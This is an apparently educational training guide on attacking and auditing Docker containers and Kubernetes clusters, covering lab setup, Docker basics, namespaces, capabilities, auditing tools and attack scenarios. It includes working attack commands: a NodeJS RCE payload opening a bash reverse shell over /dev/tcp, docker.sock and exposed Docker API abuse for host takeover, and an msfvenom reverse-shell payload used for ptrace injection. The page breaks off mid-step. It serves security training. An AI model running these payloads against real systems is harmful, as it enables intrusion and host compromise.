








Introduction
Welcome to Attacking & Auditing Docker Containers & Kubernetes Clusters training.
- This attacker focused, hands on training will set you on path to understand common vulnerabilities in containerized environments (Docker) and get familiar with Kubernetes clusters
- It will help you to learn the approach to follow and the process for testing and auditing containers and Kubernetes clusters
- By the end of the training participants will able to identify and exploit applications running on containers inside Kubernetes clusters with a hands-on approach
Abstract
An organisation using microservices or any other distributed architecture rely heavily on containers and container orchestration engines like Kubernetes and as such its infrastructure security is paramount to its business operations.
This course will set the base for security testers and DevOps teams to test for common security vulnerabilities and configuration weaknesses across containerised environments and distributed systems. It also helps to understand approach and process to audit the Kubernetes environment for security posture.
The courseware is meant to introduce participants to container and cluster management with Kubernetes.
- The focus is on the security aspects of application and the container infrastructure
- The participants will learn the common tools and techniques that are used to attack applications running in containerized environments
- The participants will be introduced to Kubernetes and learn to assess the attack surfaces applicable for a given application on the cluster
- The participants will learn how to audit for security based on best practices using tools and custom scripts
As part of the course delivery, the trainer will share examples of real world security issues found in penetration testing engagements to showcase mapping of the concepts with what usually happens in the real world.
Hardware Requirements
- At least 8 GB of RAM, 10GB of Diskspace free on the system
- Laptop should support hardware-based virtualization
- If your laptop can run a 64-bit virtual machine in Oracle VirtualBox it should work
- Network Connectivity or USB Ports for copying data
- Trainer will provide the VM and dedicated Kubernetes cluster configuration for each student with administrative access to have a hand-on experience during the training
Prerequisites
- Basic knowledge of using the Linux command line
- System administration basics like servers, applications configuration and deployment
- Familiarity with container environments like Docker and distributed systems would be useful
Take Aways
- Complete hands-on training with a practical approach and real-world scenarios
- Ebooks of the training covering all hands-on in a step by step guide (HTML, PDF, EPub, Mobi)
- Git repository of all the custom source code, scripts, playbooks used during the training
- Resources and references for further learning and practice
Disclaimer
- The attacks covered in the training are for educational purposes only. Do not test or attack any system outside of the scope of this training lab unless you have express permission to do so
- The snippets, commands and scripts used throughout the training are not production-ready, may not be bug-free and are not guaranteed in any way
Attacking & Auditing Docker Containers & Kubernetes Clusters - Agenda
- Introduction
- About the trainer
- Disclaimer
- Agenda
- Environment Setup
- Importing Virtual Machines
- SSH into machines from your host
- Common troubleshooting steps
- Docker Quick start
- docker run
- Dockerfile
- docker management
- Docker Advanced Concepts
- docker-compose wordpress
- docker volumes and networks
- docker swarm
- Portainer
- Attacking Insecure Volume Mounts
- Scenario
- Solution
- Learning More about
- Namespaces
- Capabilities
- Control Groups
- Attacking docker misconfiguration
- Scenario
- Solution
- Auditing Docker containers and images
- Docker images and containers
- Scenario
- Solution
- Auditing Docker networks and volumes
- Docker volumes and networks
- Scenario
- Solution
- Docker integrity checks
- amicontained - Introspection tool
- Attacking & Auditing Docker Runtime & Registries
- Docker runtime endpoints
- Docker registries
- Attacking container capabilities
- Scenario
- Solution
- Linux Security Module - Apparmor nginx profile
- Attacking swarm cluster secrets
- Scenario
- Solution
- Attacking private registry images
- Scenario
- Solution
- Docker bench security audit
- Container Security Monitoring
- Docker logging
- Docker Events
- Sysdig Faclo
- Kubernetes Environment Setup
- Import VM
- Internet Check
- Configure kubectl
- Kubernetes 101
- Getting Started with Kubernetes
- Introduction to Kubernetes
- Kubernetes Overview
- The Illustrated Children's Guide to Kubernetes
- Understanding Kubernetes specific technical terms
- kubectl usage for pentesters
- Deploying simple application in Kubernetes Cluster
- Using yaml manifest
- Using helm chart
- Scenario-1 - Exploiting Private Registry via Misconfiguration
- Scenario
- Solution
- Discussion
- Scenario-2 - Attacking Kubernetes Cluster Metadata using SSRF vulnerability
- Scenario
- Solution
- Discussion
- Scenario-3 - Testing for the sensitive configurations and secrets in Kubernetes cluster
- Scenario
- Solution
- Discussion
- Scenario-4 - Docker escape using Pod Volume Mounts to access the nodes and host systems
- Scenario
- Solution
- Discussion
- Scenario-5 - Attacking applications in different namespaces in Kubernetes cluster
- Scenario
- Solution
- Discussion
- Scenario-6 - Attacking Helm tiller without RBAC setup
- Scenario
- Solution
- Discussion
- Auditing Kubernetes Clusters with CIS Benchmarks using kube-bench
- Kubernetes resources security scoring using kubesec.io
- Kube-hunter to do analysis of the cluster for security concerns
- Kubeaudit to audit the cluster with detailed results
- Logging and Monitoring for security events
- Security checks for events using Sysdig Falco - Automated Defense (DEMO Only)
- Advanced Scenario - Exploiting Kubernetes API Server Vulnerability CVE-2018-1002105 (DEMO Only)
- Fun Learning About Kubernetes
- Contained.af
- Play with Docker
- Katacoda Docker Security
- Play with Kubernetes
- Popular Attacks
- Dockerhub 190k accounts
- Cryptojacking using public docker containers
- Dockerhub known vulnerable images
- BSidesSF CTF cluster pwn
- Shopify metadata to cluster pwn
- References & Resources
Environment Setup
- Importing Virtual Machines
- SSH into machines from your host
- Common troubleshooting steps
- Internet Check
Importing virtual machines
The students need to import two virtual machines for docker labs
docker-student.ovadocker-ctf.ova
NOTE: In case of
VBOX_E_FILE_ERROR (0x80BB0004)error during VM import, ensure you are importing a VM with file extension.ova.
Download VM
| VM Name | Source URL |
|---|---|
| docker-student.ova | http://www.mediafire.com/file/3x1tgszet5blaz9/docker-student.ova.zip/file |
| docker-ctf.ova | http://www.mediafire.com/file/39e1w5wt7tmxr43/docker-ctf.ova/file |
The checksums are available at http://www.mediafire.com/file/6xp3c7voy60zn1e/checksum.txt/file
Student Machine (docker-student.ova)
- Open VirtualBox, and select
File->Import Appliancefrom the top menu
- Select
docker-student.ovafile from theworkshop-contentfolder
- Check the "Reintialize the MAC address of all network cards" checkbox, and click on Next to import the ova file

- Now we can see that ova file is importing

- Use following credentials for
studentVM login
username: student
password: Docker@321
- Your IP address may differ from what is visible in the screenshot. Please note down this IP address for later use
CTF Machine (docker-ctf.ova)
- Open VirtualBox, and select
File->Import Appliancefrom the top menu
- Select
docker-ctf.ovafile from theworkshop-contentfolder
- Check the "Reintialize the MAC address of all network cards" checkbox, and click on Next to import the ova file
- Use following credentials for
ctfVM login
username: ctf
password: Dockerctf@321
- Your IP address may differ from what is visible in the screenshot. Please note down this IP address for later use
Test Setup
Ensure Networking within VM
Ensure you are able to
pingone VM from the other.
Ensure SSH Access from Host
Ensure you are able to SSH into both
StudentandCTFVM from your host using an SSH client.
SSH into machines
SSH into the student machine
- Run the following command from your terminal. Make sure you replace the
STUDENTVMIPip address with your student vm ip address
ssh student@STUDENTVMIP
SSH into the ctf machine
- Run the following command from your terminal. Make sure you replace the
CTFVMIPip address with your ctf vm ip address
ssh ctf@CTFVMIP
Common Troubleshooting Steps
- If you encounter
REMOTE HOST IDENTIFICATION CHANGEDerror. Please remove the conflicting entry by running the command printed
Internet Check
- Browse to https://appsecco.com from you host browser
- Run
curl ifconfig.cofrom your virtual machines
Getting started with docker
Introduction
Docker containers wrap a piece of software in a complete filesystem that contains everything needed to run: code, runtime, system tools, system libraries and anything that can be installed on a server. This guarantees that the software will always run the same, regardless of its environment.
Run your first docker container
docker run hello-world
- When you run
docker runcommand- Docker engine checks if the image is available or not
- If image is not available, docker engine will pull from docker registry
- If image is available, docker engine will run the command locally
How Docker Works?
Dockeris the program that enables containers to be built, shipped and run- Docker Engine uses Linux Kernel namespaces and control groups
Image Reference: https://docs.docker.com/engine/docker-overview/
Terminology
- Docker Image
- Read only file with OS, libraries and apps
- Anyone can create a docker image
- Images can be stored in Docker hub (default public registry) or private registry
- Docker Container
- Stateful instance of an image with a writable layer
- Contains everything needed to run your application
- Based on one or more images
- Docker Registry
- Repository of images
- Docker Hub
- Public docker registry
What is Docker Hub?
- Docker Hub is the public registry that contains a large number of images available for your use
Docker Search
- You can also search through all publicly available images in docker hub
docker search wpscan
Docker run
Running docker container
- Run the following command to start an Ubuntu container
docker run ubuntu:latest echo "Welcome to Ubuntu"
- Run the following command to start an Ubuntu container with interactive bash shell
docker run --name samplecontainer -it ubuntu:latest /bin/bash

Find your containers
- Listing running containers
docker ps
- Listing all containers (runing/stopped)
docker ps -a
Listing docker images
docker images
Running container in detached Mode
- Run an alpine container in the background
docker run --name pingcontainer -d alpine:latest ping 127.0.0.1 -c 50
- Looking at the logs (stdout) of a container
docker logs -f pingcontainer
Running nginx container and access the service
docker run -d --name nginxalpine -p 7777:80 nginx:alpine
- Accessing the container service from the host system using mapped port
curl localhost:7777
- Accessing the container service using the container IP and container port
docker exec -it nginxalpine sh
ip addr
curl 172.17.0.2:80
Dockerfile
A Dockerfile is a configuration file that contains instructions for building a Docker image
- Provides a more effective way to build images compared to using docker commit
- Easily fits into your continuous integration and deployment process
Example Dockerfile
FROMinstruction specifies what the base image should beRUNinstruction specifies a command to executeCMDis to provide defaults for an executing container
# Example of a comment
FROM ubuntu
RUN apt-get update
RUN apt-get install curl -y
RUN apt-get install htop -y
CMD ["htop"]
Create a simple htop container
- Create new directory and change to the directory
mkdir htop-container
cd htop-container
- Create below file using
vi Dockerfile
FROM ubuntu
LABEL MAINTAINER "user@domain.com"
RUN apt-get update && apt-get install -y \
curl \
htop
CMD ["htop"]
- Build the docker container
docker build -t abh1sek/htop:1.0 .
- Running the
htopcontainer
docker run --rm -it abh1sek/htop:1.0
References
Docker Management
There are different commands which will be very handy while using and managing docker containers.
Inspecting container or image
- Returns low-level information on Docker objects
docker inspect <container name>
docker inspect <image name>
- Let's inspect the
nginx:alpineimage
docker inspect nginx:alpine

Docker history
- Show the history of an image
docker history jess/htop

Stopping and removing container
- Let's run an
nginxcontainer
docker run --name dummynginx -d nginx:alpine
- To remove a container, it has to be stopped. Stop the running container by container name or id
docker stop dummynginx
- If you do not remember container name or id, run following command
docker ps -a
- Once stopped, run the below command
docker rm dummynginx
Docker Advanced Concepts
docker-compose wordpress setup
Compose is a tool for defining and running multi-container Docker applications. With Compose, you use a Compose file to configure your application's services. Then, using a single command, you create and start all the services from your configuration
- Let's setup wordpress site using docker-compose
cd /opt/wordpress
docker-compose up -d

- Access the wordpress site using
http://STUDENTVMIP:8000

Ignore any error related to broken CSS. This is due to IP address mismatch in Wordpress configuration.
Looking at docker-compose.yml
- Inspecting the compose file by running
less /opt/wordpress/docker-compose.yml
version: '3.3'
services:
db:
image: mysql:5.7
volumes:
- db_data:/var/lib/mysql
restart: always
environment:
MYSQL_ROOT_PASSWORD: SuperSecret321
MYSQL_DATABASE: wordpress
MYSQL_USER: wordpress
MYSQL_PASSWORD: ComplicatedPassword
wordpress:
depends_on:
- db
image: wordpress:latest
ports:
- "8000:80"
restart: always
environment:
WORDPRESS_DB_HOST: db:3306
WORDPRESS_DB_USER: wordpress
WORDPRESS_DB_PASSWORD: ComplicatedPassword
volumes:
db_data:
Docker volumes and networks
Checking for the docker volumes
- Listing the docker volumes
docker volume ls
- Creating new docker volume
docker volume create c0c0n
Checking for the docker networks
- Listing the docker networks
docker network ls

- Creating new docker network
docker network create c0c0n
Docker Swarm
A swarm is a group of machines that are running Docker and joined into a cluster. After that has happened, you continue to run the Docker commands you're used to, but now they are executed on a cluster by a swarm manager. The machines in a swarm can be physical or virtual.
- Let's setup docker swarm cluster
docker swarm init
- Check the list of nodes
docker node ls

- Starting new service in docker swarm cluster
docker service create --replicas 1 --publish 5555:80 --name nginxservice nginx:alpine
- Look at the running services
docker service ls
- Inspecting the service
docker service inspect --pretty nginxservice
- Accessing the service
curl STUDENTIP:5555
- Removing the service
docker service rm nginxservice
- Leaving the swarm cluster
docker swarm leave
# If only one node in the cluster
docker swarm leave --force
References
Portainer
Portainer is a simple management solution for Docker. Easily manage your Docker hosts and Docker Swarm clusters via Portainer web user interface.
- Run portainer using the below command
docker run -d -p 9000:9000 --name portainer \
--restart always -v /var/run/docker.sock:/var/run/docker.sock \
-v /opt/portainer:/data portainer/portainer
- Now you can access portianer at http://STUDENTVMIP:9000
Attacking Insecure Volume Mounts
Attacking insecure volume mounts - Scenario
In this scenario we will be exploiting a NodeJS application using remote code execution to gain a reverse shell. Then we will use the volume mounted docker.sock to gain privileges in the host system with docker runtime.
- The application is running at CTF VM. You can access it by navigating to
http://CTFVMIP
- This NodeJS application is vulnerable to remote code execution (RCE) in
qGET parameter. Access the endpoint usinghttp://CTFVMIP/?q="docker"
- To exploit this RCE, we will be using below payload. Here
192.168.56.3need to replace with your student VM IP
require("child_process").exec('bash -c "bash -i >%26 /dev/tcp/192.168.56.3/5555 0>%261"')
Attacking insecure volume mounts - Solution
- The application is running at CTF VM. You can access it by navigating to
http://CTFVMIP
- This NodeJS application is vulnerable to remote code execution (RCE) in
qGET parameter. Access the endpoint usinghttp://CTFVMIP/?q="docker"
- To exploit this RCE, we will be using below payload. Here
192.168.56.3need to replace with your student VM IP
require("child_process").exec('bash -c "bash -i >%26 /dev/tcp/192.168.56.3/5555 0>%261"')
- Start the netcat listener on
studentmachine to get the reverse shell
nc -lvp 5555
- To exploit and get reverse shell use the below URL. It contains the payload to connect back to student vm. Ensure that you have replaced
192.168.56.3with your student VM IP
http://CTFVMIP?q=require("child_process").exec('bash -c "bash -i >%26 /dev/tcp/192.168.56.3/5555 0>%261"')
- Now we will receive the reverse shell in our student vm where we listening via
nc
-
Now, we have shell inside the docker container, we can explore the container for post exploitation
-
We can see that
ls -l /var/run/docker.sockis available and mounted from the host system.
This allows attacker to access the host docker service using host option with docker client by using the UNIX socket
- The docker client is already downloaded into the container and is at
/root/docker
cd /root/docker/
ls -l
- To access the host resource using the
docker.sockUNIX socket. Run the following
./docker -H unix:///var/run/docker.sock ps
./docker -H unix:///var/run/docker.sock images
- Now, we have full privilege over the host system :)
Fixing this vulnerability
- Running the containers with limited user privileges and using rootless containers
- Also using isolated instances for the required privileges
Learning more about containers
Namespaces
Docker uses namespaces to provide the isolated workspace called the container. When you run a container, Docker creates a set of namespaces for that container.
- The
pidnamespace: Process isolation (PID: Process ID) - The
netnamespace: Managing network interfaces (NET: Networking) - The
ipcnamespace: Managing access to IPC resources (IPC: InterProcess Communication) - The
mntnamespace: Managing filesystem mount points (MNT: Mount) - The
utsnamespace: Different host and domain names (UTS: Unix Timesharing System) - The
usernamespace: Isolate security-related identifiers (USER: userid, groupid)
Namespaces Demonstration
docker run --rm -d alpine sleep 1111
ps auxx | grep 'sleep 1111'
sudo ls /proc/[pid]/ns/
PID namespace
-
PID namespaces isolate the process ID number space, meaning that processes in different PID namespaces can have the same PID
-
PID namespaces allow containers to provide functionality such as suspending/resuming the set of processes in the container and migrating the container to a new host while the processes inside the container maintain the same PIDs
For example, while running nginx docker container we always get PID 1 for nginx but at the host we see a different PID like
9989
docker run --rm --name=samplewebapp1 -d nginx:alpine
ps auxxx | grep nginx
docker exec -it samplewebapp1 sh
ps auxxx | grep nginx
docker run --rm --name=samplewebapp2 -d nginx:alpine
ps auxxx | grep nginx
docker exec -it samplewebapp2 sh
ps auxxx | grep nginx
- Here we can see that both process have different pids in host system but inside containier they both use pid 1
Attaching host processes to container
- We can also pass or attach the host process namespace or any other container process namespace to container using the --pid flag
docker run --rm -it --pid=host jess/htop
Capabilities
Capabilities turn the binary "root/non-root" into a fine-grained access control system. Processes (like web servers) that just need to bind on a port below 1024 do not have to run as root, they can just be granted the net_bind_service capability instead.
Starting with kernel 2.2, Linux divides the privileges traditionally associated with superuser into distinct units, known as capabilities, which can be independently enabled and disabled.
Capabilities Demonstration
- Let's run ping command in a container
docker run --rm -it alpine sh
ping 127.0.0.1 -c 2
- Now, let's remove the
CAP_NET_RAWcapability and try again
docker run --rm -it --cap-drop=NET_RAW alpine sh
ping 127.0.0.1 -c 2
Checking for the list of capabilities
- We can check the list of capabilities applied the container or system using the below command
docker run --rm -it 71aa5f3f90dc bash
capsh --print
Running the full privileged container
- Run the below command to start a privileged container
docker run --rm -it --privileged=true 71aa5f3f90dc bash
capsh --print
- It is possible to access the host devices from the privileged containers using
more /dev/kmsg
The /dev/kmsg character device node provides userspace access to the kernel's printk buffer.
Control Groups
The kernel uses cgroups also known as control groups to group processes for the purpose of system resource management. Cgroups allocate CPU time, system memory, network bandwidth, or combinations of these among user-defined groups of tasks.
- Let's run two containers with different cpu shares
docker run -d --name='low_priority' \
--cpuset-cpus=0 --cpu-shares=10 alpine md5sum /dev/urandom
docker run -d --name='high_priority' \
--cpuset-cpus=0 --cpu-shares=50 alpine md5sum /dev/urandom
- Now we can see the utilization status by running
htop
docker run --rm -it --pid host jess/htop
- Stop and remove the running containers
docker stop low_priority high_priority
docker rm low_priority high_priority
- Now run the containers without any cpu shares specified
docker run -d --name='low_priority' alpine md5sum /dev/urandom
docker run -d --name='high_priority' alpine md5sum /dev/urandom
- Check resource utilization using
htop
docker run --rm -it --pid host jess/htop
- Stop and remove the running containers
docker stop low_priority high_priority
docker rm low_priority high_priority
References
Attacking docker misconfiguration
Exploiting docker misconfiguration - Scenario
In this scenario we will see a misconfigured docker instance with exposed TCP ports on the network. We will use this with docker runtime option to access the containers, images and gain host system privileges.
The Docker daemon can listen for Docker Engine API requests via three different types of Socket
unix,tcp, andfd. To access remotely we have to enabletcpsocket. The default setup provides un-encrypted and un-authenticated direct access to the Docker daemon.
- Your weapon to attack this scenario is the popular
nmaptool
Exploiting docker misconfiguration - Solution
The Docker daemon can listen for Docker Engine API requests via three different types of Socket
unix,tcp, andfd. To access remotely we have to enabletcpsocket. The default setup provides un-encrypted and un-authenticated direct access to the Docker daemon. It is conventional to use port2375for un-encrypted, and port2376for encrypted communication with the daemon.
- Scan the
2375and2376port using nmap from student VM
nmap -p 2375,2376 -n 192.168.56.4 -v
- We can query the docker API using
curl
curl 192.168.56.4:2375/images/json | jq .
- Attacker can abuse this by using the docker daemon configuration to access the host system's docker runtime
docker -H tcp://CTFVMIP:2375 ps
docker -H tcp://CTFVMIP:2375 images
- Now, we have full privilege over the host system :)
Fixing this vulnerability
- Use the
2376port for exposing if required to expose the Docker API. Otherwise usefdorsocketto expose the docker runtime daemon
Auditing Docker containers and images
Auditing Docker Images and Containers
There are multiple checks we can perform to audit against the docker images and containers. Containers are nothing but running instances of an image. We can look at an images's configuration and options to find any issues or misconfigurations.
Checking the checksum for the images
docker images --digests ubuntu
Checking for content trust to get signatures
-
Content trust is disabled by default. To enable it, set the
DOCKER_CONTENT_TRUSTenvironment variable to 1 -
Checking the image issuers with
docker trust
docker trust inspect mediawiki --pretty
Looking for known vulnerabilities
-
Most of the containers in dockerhub use base containers. If those aren't updated frequently, then known vulnerabilities might exist in them
-
We can use docker hub registry scanning, clair (Vulnerability Static Analysis for Containers) to check for vulnerable packages in images
-
Let's now check for the known vulnerabilities for old docker images using vulners audit
Vulners audit tool provides you with the ability to easily check the OS for vulnerable packages. Select your OS type, version and paste the list of installed packages to identify the vulnerable software.
docker run --rm -it 71aa5f3f90dc bash
cat /etc/issue
dpkg-query -W -f='${Package} ${Version} ${Architecture}\n'
- Now, we will paste these packages in the vulners and see the list of known vulnerabilities
Vulnerability Scan using Trivy
Trivy can also be used for running vulnerability scan on docker images.
docker run --rm \
-v ~/.cache:/root/.cache/ \
-v /var/run/docker.sock:/var/run/docker.sock \
aquasec/trivy ubuntu
Checking for metadata, secrets and environment variables
- We can check for these data using the
docker inspectcommand on both images and containers
docker inspect <image name>
docker inspect <container name>
docker image analysis - Scenario
- Find out the backdoor (or) malicious command in this docker image by doing analysis
custom-htop
Do this in the
student-vm
docker image analysis - Solution
- Run the below command to show the history of a docker image. This will list the commands that were used for creating the image
docker history custom-htop
Auditing Docker networks and volumes
Auditing Docker Volumes and Networks
Listing and inspecting the docker volumes
- Listing docker volumes
docker volume ls
- Inspecting docker volumes
docker volume inspect wordpress_db_data
- Volumes can be used with Ready-Only, Read-Write modes
Listing and inspecting the docker networks
-
Docker by default creates it's own networking namespace when we use Docker Swarm or Docker Compose
-
By default bridge, host, null networking options are available
-
Listing the docker networks
docker network ls
- Inspecting the docker network
docker inspect wordpress_default
We can use our traditional toolset like
nmap(or)ncfor performing scans and information gathering
Docker Volumes - Scenario
- Identify the sensitive content in the docker volumes using volume analysis for volume
1e030154f4952361cec6c21e838a0fb617c7b7cc6359570407eb9f697b229b67
Docker Volumes - Solution
- Inspecting docker volumes
docker volume inspect 1e030154f4952361cec6c21e838a0fb617c7b7cc6359570407eb9f697b229b67
- Looking for sensitive data and secrets
sudo -i
cd /var/lib/docker/volumes/1e030154f4952361cec6c21e838a0fb617c7b7cc6359570407eb9f697b229b67/_data
ls
grep -i 'flag' wp-config.php
grep -i 'password' wp-config.php
Docker integrity check for containers
- We can list the changed files and directories in a containers filesystem
- There are 3 events that are listed in the diff
- A - Add
- D - Delete
- C - Change
Demonstration
- Let's run a ubuntu container and perform some changes
docker run --name checkintegriy -it ubuntu:latest bash
mkdir -p /data/output
echo "modifed this stuff" > /.dockerenv
exit
- Now lets see the diff using the following command
docker diff checkintegriy
amicontained
This is a container introspection tool that lets you find out what container runtime is being used as well as the features available.
- Docker container running with no privileges
docker run --rm -it r.j3ss.co/amicontained -d

- Docker container running with host privileges
docker run --rm -it --pid host r.j3ss.co/amicontained -d
- Docker container running with apparmor profile security options
docker run --rm -it --security-opt "apparmor=unconfined" r.j3ss.co/amicontained -d
Attacking & Auditing Docker Runtime & Registries
Auditing Docker Runtime and Endpoints
- Checking for the docker daemon configuration
docker system info
- Checking for the docker API exposed on
0.0.0.0
sudo cat /lib/systemd/system/docker.service
- Checking if the docker socket is mounted to any running container
docker inspect | grep -i '/var/run/'
- Checking other files and data related to docker
sudo ls -l /var/lib/docker/

Auditing Docker Registries
A Docker registry is a distribution system for Docker images. There will be different images and each may contain multiple tags and versions. By default the registry runs on port 5000 without authentication and TLS.
In this section, we will be using a simple unauthenticated docker private registry to perform security audit.
- We can check if the docker registry is up by running the following command in the student VM
curl -s http://localhost:5000/v2/_catalog | jq .
- Get the list of tags and versions of a docker image from the registry
curl -s http://localhost:5000/v2/devcode/tags/list | jq .
- Downloading a registry image locally
docker pull localhost:5000/devcode:latest
- Reviewing the container for sensitive data and hard-coded secrets
docker run --rm -it localhost:5000/devcode:latest sh
cat /.aws/credentials
- Lets check the default docker daemon configuration. This prints the default username and registry used by the docker run time
docker system info
- Lets look for the configured registries from the host. The credentials may authorize us to pull and/or push images to the registry
cat ~/.docker/config.json
Attacking container capabilities
Attacking Container Capabilities - Scenario
In this scenario we will exploit a container with sys_ptrace capability running with host PID namespace. We will exploit these to breakout of the container and access the host system. We assume that the attacker already has access to the container for this scenario.
- Login to the container using below command. Ensure that you run this in the
CTFvm
docker exec -it sysmon bash

Attacking Container Capabilities - Solution
- Login to the container using below command. Ensure that you run this in the
CTFvm
docker exec -it sysmon bash
- Check for existing capabilities by running
capsh --print
- Also the container has enabled
--pid=hostso we can access then host process usingtopcommand

Since an attacker can list host processes and has the
sys_ptracecapability. Attacker can exploit this scenario to inject and execute code from the address space of any host process. This effectively results in a docker escape as the attacker can execute code outside the container.
Steps to attack
- Generate reverse shell payload using metasploit's
msfvenomprogram. Replace the192.168.56.3with student vm IP address.
cd /home/student/linux-injector
msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.56.3 LPORT=4444 -f raw -o payload.bin
- Send the exploit and injector program to the container using simple python server. Run the below command in student vm
cd /home/student
tar -czf linux-injector.tar.gz linux-injector
python -m SimpleHTTPServer 8002
- Download the payload in the ctf vm container. Run the below command in the CTF vm and inside the
sysmoncontainer. Ensure you replace the192.168.56.3with your student vm IP
curl -o linux-injector.tar.gz http://192.168.56.3:8002/linux-injector.tar.gz
tar xzf linux-injector.tar.gz
cd linux-injector
chmod 755 injector
- Start the
nclistener to receive the connect back shell in student vm. Run the following command in student VM
nc -lvp 4444

- Now identify the process, which is running as
